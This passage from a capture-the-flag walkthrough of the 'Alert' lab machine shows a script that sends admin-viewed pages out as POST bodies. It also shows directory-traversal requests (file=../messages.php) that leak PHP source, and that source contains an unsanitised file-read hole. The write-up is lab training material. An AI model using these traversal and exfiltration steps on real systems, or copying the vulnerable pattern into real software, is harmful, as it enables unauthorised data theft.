 ```
            if not chunk:
                break
            req += chunk

# print data
body = req.decode("utf-8").split("\r\n\r\n")[1]
print(body)

```

I made a slight change to exfil the data as the body of a POST request, rather than encoded in the URL. This allows me to read longer pages. Running it will read a page as admin:

```

oxdf@hacky$ time python make_request.py http://alert.htb/messages.php
<h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>

real    0m4.104s
user    0m0.110s
sys     0m0.037s

```

It takes ~4 seconds due to the multiple requests involved.

#### Directory Traversal

I am able to read the file in the listing (though it is empty):

```

oxdf@hacky$ python make_request.py http://alert.htb/messages.php?file=2024-03-10_15-48-34.txt
<pre></pre>

```

I can try reading other files. I already know there’s a `messages` directory, which is likely where it is supposed to read files. I’ll try stepping up one level and reading `messages.php`:

```

oxdf@hacky$ python make_request.py http://alert.htb/messages.php?file=../messages.php
<pre><?php
$ip = $_SERVER['REMOTE_ADDR'];
if ($ip == '127.0.0.1' || $ip == '::1') {
    $directory = "messages/";

    $messages = glob($directory . "*.txt");

    if (isset($_GET['file'])) {
        $file = $_GET['file'];
        echo "<pre>" . file_get_contents($directory . $file) . "</pre>";
    } else {
        echo "<h1>Messages</h1>";
        if (count($messages) > 0) {
            echo "<ul>";
            foreach ($messages as $message) {
                $filename = basename($message);
                echo "<li><a href='messages.php?file=$filename'>$filename</a></li>";
            }
            echo "</ul>";
        } else {
            echo "No messages found.";
        }
    }
```